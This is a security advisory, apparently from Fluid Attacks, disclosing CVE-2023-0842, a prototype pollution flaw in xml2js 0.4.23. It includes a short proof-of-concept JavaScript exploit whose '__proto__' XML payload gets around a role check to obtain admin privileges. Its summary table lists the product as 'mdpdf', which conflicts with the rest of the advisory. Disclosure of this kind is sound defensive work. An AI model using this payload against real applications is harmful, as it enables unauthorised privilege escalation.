 ```yaml
---
slug: advisories/myers/
title: xml2js 0.4.23          -         Prototype Pollution
authors: Carlos Bello
writer: cbello
codename: myers
product: xml2js 0.4.23  -  Prototype Pollution
date: 2023-02-20 12:00 COT
cveid: CVE-2023-0842
severity: 7.3
description: xml2js 0.4.23          -         Prototype Pollution
keywords: Fluid Attacks, Security, Vulnerabilities, NPM, Prototype Pollution
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | xml2js 0.4.23 - Prototype Pollution                                |
| **Code name**         | [Myers](https://en.wikipedia.org/wiki/Bryant_Myers)                |
| **Product**           | mdpdf                                                              |
| **Affected versions** | Version 0.4.23                                                     |
| **State**             | Public                                                             |
| **Release date**      | 2023-02-20                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Prototype Pollution                                                                                                         |
| **Rule**              | [390. Prototype Pollution](https://docs.fluidattacks.com/criteria/vulnerabilities/390)                                      |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:L                                                                                |
| **CVSSv3 Base Score** | 7.3                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2023-0842](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0842)                                               |

## Description

xml2js version 0.4.23 allows an external attacker to edit or add new
properties to an object. This is possible because the application does
not properly validate incoming JSON keys, thus allowing the `__proto__`
property to be edited.

## Vulnerability

Prototype pollution is a vulnerability that affects JS. It occurs when a
third party manages to modify the `__proto__` of an object. JavaScript
first checks if such a method/attribute exists in the object. If so, then
it calls it. If not, it looks in the object's prototype. If the method/attribute
is also not in the object's prototype, then the property is said to be undefined.

Therefore, if an attacker succeeds in injecting the `__proto__` property into an
object, he will succeed in injecting or editing its properties.

## Exploitation

### Exploit.md

```js
var parseString = require('xml2js').parseString;

let normal_user_request    = "<role>admin</role>";
let malicious_user_request = "<__proto__><role>admin</role></__proto__>";

const update_user = (userProp) => {
    // A user cannot alter his role. This way we prevent privilege escalations.
    parseString(userProp, function (err, user) {
        if(user.hasOwnProperty("role") && user?.role.toLowerCase() === "admin") {
            console.log("Unauthorized Action");
        } else {
            console.log(user?.role[0]);
        }
    });
}

update_user(normal_user_request);
update_user(malicious_user_request);
```

## Evidence of exploitation

![Explotation-xml2js](https://user-images.githubusercontent.com/51862990/219061662-8134c98a-e0bf-40c9-9834-426f5213add6.png)

## Our security policy

We have reserved the ID CVE-2023-0842 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: xml2js 0.4.23

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/Leonidas-from-XIV/node-xml2js/>

## Timeline

<time-lapse
  discovered="2023-02-14"
  contacted="2023-02-14"
  replied="2023-02-14"
  confirmed=""
  patched=""
  disclosure="">
</time-lapse>
